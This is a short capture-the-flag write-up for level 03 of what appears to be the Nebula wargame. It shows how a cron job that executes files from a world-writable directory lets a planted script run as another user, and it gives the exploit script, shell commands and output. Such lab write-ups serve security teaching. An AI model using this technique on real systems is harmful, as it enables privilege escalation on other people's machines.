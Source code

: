 # Level 03

This level tells us there there's a cron job that runs the following script as the flag03 user:

```bash
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

```

Note: The /home/flag03/writable.d is world writeable.

All we need to do is create a script, put it in writeable.d and wait for it to execute.

exploit.sh
```bash
#!/bin/bash

/bin/getflag >> /tmp/flag03
chmod +r /tmp/flag03
```

```bash
level03@nebula:/home/flag03$ cp /tmp/exploit.sh writable.d/

level03@nebula:/home/flag03$ ls writable.d/
exploit.sh

level03@nebula:/home/flag03$ cat /tmp/flag03
You have successfully executed getflag on a target account
```